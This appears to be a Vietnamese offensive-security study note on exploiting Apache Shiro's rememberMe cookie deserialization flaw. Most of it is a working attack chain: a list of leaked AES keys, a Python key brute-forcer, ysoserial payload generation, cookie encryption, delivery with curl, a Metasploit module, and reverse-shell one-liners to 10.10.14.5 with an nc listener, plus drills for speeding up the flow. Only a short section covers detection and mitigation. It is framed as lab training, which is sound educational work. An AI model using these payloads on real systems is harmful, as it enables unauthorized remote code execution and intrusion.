

> **Prerequisites**: [[09-java-gadget-chains-ysoserial|09. Gadget Chains & ysoserial]]
> **Objectives**:
> - Hiểu tại sao Shiro rememberMe cookie là Java deserialization sink
> - Enumerate và brute-force AES key từ danh sách ~100 known keys
> - Generate và deliver ysoserial payload qua Shiro cookie
> - Confirm RCE via DNS callback trước khi escalate

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Apache Shiro ≤ 1.2.4 với hardcoded AES key (default key đã lộ)
> - Hoặc bất kỳ Shiro version nào nếu biết AES key (custom key lộ qua source/config)
> - Gadget library có trong classpath (CommonsCollections, CommonsBeanutils, Spring...)
> - Network access đến web endpoint có login (để gửi rememberMe cookie)

> [!tip] Không cần tài khoản hợp lệ
> Attacker gửi malicious cookie mà không cần login thành công. Shiro cố gắng decrypt/deserialize cookie trước khi verify authentication.

---

## Cơ chế tấn công

### Tại Sao rememberMe Cookie Là Sink

![[assets/img-10-shiro-cookie-flow.png]]
*Hình 1: Shiro rememberMe cookie lifecycle — legitimate flow (trên) vs attack path (dưới). Hardcoded AES key là root cause.*

`CookieRememberMeManager` trong Shiro xử lý cookie theo sequence:

```
Base64 decode → AES-CBC decrypt → Java deserialize → PrincipalCollection
```

Vấn đề: AES key được **hardcode** trong source code Shiro 1.2.4:

```java
// AbstractRememberMeManager.java — DEFAULT_CIPHER_KEY_BYTES
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

Key này đã public từ năm 2010. Hầu hết developers triển khai Shiro không đổi key mặc định. Kết quả: attacker encrypt *bất kỳ* Java serialized object nào bằng key này, gửi như cookie, server sẽ deserialize.

### AES Key Database

Cộng đồng security đã thu thập khoảng 100 known Shiro AES keys từ GitHub leaks, CVE PoCs, và common frameworks. Đây là danh sách được dùng trong brute-force:

```
kPH+bIxk5D2deZiIxcaaaA==      ← DEFAULT (Shiro 1.2.4)
4AvVhmFLUs0KTA3Kprsdag==      ← Spring Boot demo apps
Z3VucwAAAAAAAAAAAAAAAA==
wGiHplamyXlVB11UXWol8g==
fCq+/xW488hMTCD+cmJ3aQ==
...~100 total
```

---

## Quy trình tấn công

**Môi trường giả định**: Apache Shiro app tại `http://10.10.10.150/`, thấy `rememberMe=deleteMe` trong response headers (dấu hiệu Shiro).

### Bước 1 — Fingerprint Shiro

```bash
# Shiro đặt cookie header "rememberMe=deleteMe" khi login fail hoặc bad cookie
curl -si http://10.10.10.150/login -d "username=test&password=test&rememberMe=1" \
  | grep -i "set-cookie\|rememberMe"
```

> **Expected output**: `Set-Cookie: rememberMe=deleteMe; ...` → xác nhận Apache Shiro.

### Bước 2 — Brute-Force AES Key Với URLDNS

```bash
# Clone ShiroScan hoặc dùng script thủ công
git clone https://github.com/sv3nbeast/ShiroScan
cd ShiroScan && pip3 install -r requirements.txt --break-system-packages

# Auto-detect Shiro và brute AES key
python3 shiro_scan.py -u http://10.10.10.150/
```

**Alternative — script thủ công** (khi ShiroScan fail):

```python
#!/usr/bin/env python3
import requests, base64, subprocess, sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

KEYS = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "wGiHplamyXlVB11UXWol8g==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
]

URL = sys.argv[1]
COLLAB = sys.argv[2]  # Burp Collaborator URL

# Generate URLDNS payload
result = subprocess.run(
    ["java", "-jar", "ysoserial.jar", "URLDNS", f"http://{COLLAB}"],
    capture_output=True
)
payload_bytes = result.stdout

for key_b64 in KEYS:
    key = base64.b64decode(key_b64)
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    padded = pad(payload_bytes, 16)
    encrypted = cipher.encrypt(padded)
    cookie_val = base64.b64encode(iv + encrypted).decode()
    
    r = requests.get(URL, cookies={"rememberMe": cookie_val}, timeout=5)
    print(f"[*] Tried key: {key_b64[:20]}... → status {r.status_code}")
    # Watch Collaborator for DNS hit
```

> **Expected output**: Burp Collaborator nhận DNS query → key tương ứng là valid.

### Bước 3 — Generate RCE Payload

```bash
# Xác nhận key là: kPH+bIxk5D2deZiIxcaaaA==
KEY="kPH+bIxk5D2deZiIxcaaaA=="

# Generate ysoserial payload (CommonsBeanutils1 — không cần commons-collections)
java -jar ysoserial.jar CommonsBeanutils1 \
  "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" > /tmp/shell.ser

# Encrypt với Shiro AES key
python3 -c "
import base64, os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

key = base64.b64decode('kPH+bIxk5D2deZiIxcaaaA==')
payload = open('/tmp/shell.ser', 'rb').read()
iv = os.urandom(16)
cipher = AES.new(key, AES.MODE_CBC, iv)
encrypted = cipher.encrypt(pad(payload, 16))
cookie = base64.b64encode(iv + encrypted).decode()
print(cookie)
" > /tmp/shiro_cookie.txt
```

### Bước 4 — Deliver Payload

```bash
# Listener
nc -lvnp 4444 &

# Deliver qua cookie
COOKIE=$(cat /tmp/shiro_cookie.txt)
curl -s http://10.10.10.150/ \
  -H "Cookie: rememberMe=$COOKIE"
```

> **Expected output**: Reverse shell nhận được → `uid=1000(webapp) gid=1000(webapp)`.

### Bước 5 — Alternative: Metasploit

```bash
msfconsole -q
use exploit/multi/http/shiro_rememberme_v124_deserialize
set RHOSTS 10.10.10.150
set RPORT 80
set TARGETURI /
set ENC_KEY kPH+bIxk5D2deZiIxcaaaA==
set LHOST 10.10.14.5
set LPORT 4444
run
```

---

## Biến thể & Bypass

### Shiro Version Không Dùng Default Key

```bash
# Spring Boot thường dùng key từ application.properties
grep -r "shiro\|cipherKey\|rememberMe" /opt/app/ 2>/dev/null

# Hoặc brute-force với full key list (GitHub: yanghaoi/shiro_exploit)
python3 shiro_exploit.py -u http://target/ -t 7 --gadget CommonsBeanutils1
```

### Shiro ≥ 1.2.5 (Random Key Per Startup)

```bash
# Nếu không có key hardcoded, cần tìm key từ config hoặc memory
# Thử thu thập từ actuator endpoints (Spring Boot)
curl http://target/actuator/env | grep -i shiro
curl http://target/actuator/configprops | grep -i cipher
```

### Không Có CommonsBeanutils Trong Classpath

```bash
# Thử các gadgets khác theo thứ tự phổ biến trong Shiro context
for gadget in CommonsCollections2 CommonsCollections4 CommonsCollections6 Spring1 Spring2; do
  # Encrypt và thử từng cái
  echo "Testing $gadget..."
done
```

---

## Cây quyết định



---

## Command Cheatsheet

**Fingerprint Shiro**

```bash
# Detect rememberMe=deleteMe header
curl -si http://TARGET/ -d "u=a&p=a" | grep -i rememberme

# Version detect qua error
curl http://TARGET/nonexistent 2>&1 | grep -i "shiro\|1\.2\."
```

**Key Brute-Force**

```bash
# ShiroScan auto
python3 shiro_scan.py -u http://TARGET/

# Manual với known key list
# File shiro_keys.txt từ GitHub repositories
```

**Encrypt Payload Với Key**

```python
import base64, os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def shiro_encrypt(payload_bytes, key_b64):
    key = base64.b64decode(key_b64)
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return base64.b64encode(iv + cipher.encrypt(pad(payload_bytes, 16))).decode()
```

**ysoserial Payload Generation**

```bash
# Detection (URLDNS)
java -jar ysoserial.jar URLDNS "http://collab.oastify.com"

# RCE (CommonsBeanutils — most compatible với Shiro)
java -jar ysoserial.jar CommonsBeanutils1 "bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'"

# Windows target
java -jar ysoserial.jar CommonsBeanutils1 "cmd /c 'powershell -enc <BASE64>'"
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Fingerprint và confirm Shiro**
Mục tiêu: identify Shiro trong < 30 giây từ một HTTP response.

```bash
curl -si http://TARGET/login -d "u=x&p=x" | grep -i set-cookie
# Nhìn: rememberMe=deleteMe → Shiro confirmed
```

Luyện cho đến khi: phản xạ ngay khi thấy `rememberMe=deleteMe`.

**Drill 2 — Encrypt payload và deliver**
Mục tiêu: thuộc lòng 3-step flow: generate → encrypt → deliver.

```bash
# 1. Generate
java -jar ysoserial.jar CommonsBeanutils1 "sleep 5" > /tmp/p.ser
# 2. Encrypt
python3 shiro_enc.py kPH+bIxk5D2deZiIxcaaaA== /tmp/p.ser
# 3. Deliver
curl http://TARGET/ -H "Cookie: rememberMe=$ENCRYPTED"
# 4. Check timing
```

Luyện cho đến khi: toàn bộ flow < 3 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Log**: `org.apache.shiro.mgt.AbstractRememberMeManager - Failed to deserialize` → bad cookie attempt
> **Log**: `java.io.InvalidClassException` trong Shiro logs → gadget chain không match → attacker đang thử
> **Network**: Outbound DNS/HTTP từ app server không có lý do → URLDNS / RCE executed
> **Process**: Subprocess spawn từ JVM process (bash, cmd) → gadget chain thành công

> [!note] Mitigation
> - Upgrade Shiro ≥ 1.4.2 (random key per deployment, không còn hardcode)
> - Luôn set custom `cipherKey` trong `shiro.ini` kể cả khi upgrade
> - Implement `ObjectInputFilter` để whitelist chỉ Shiro's own classes
> - Thay thế Java serialization bằng JSON-based session storage (Shiro hỗ trợ)

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | Classic Shiro + Commons Collections chain |
| VulnHub | **Shiro-Demo** | Dedicated Shiro vulnerable app |
| TryHackMe | **Insecure Deserialization** | Includes Shiro scenario |
| Rapid7 | **Metasploit module demo** | Test `shiro_rememberme_v124_deserialize` |
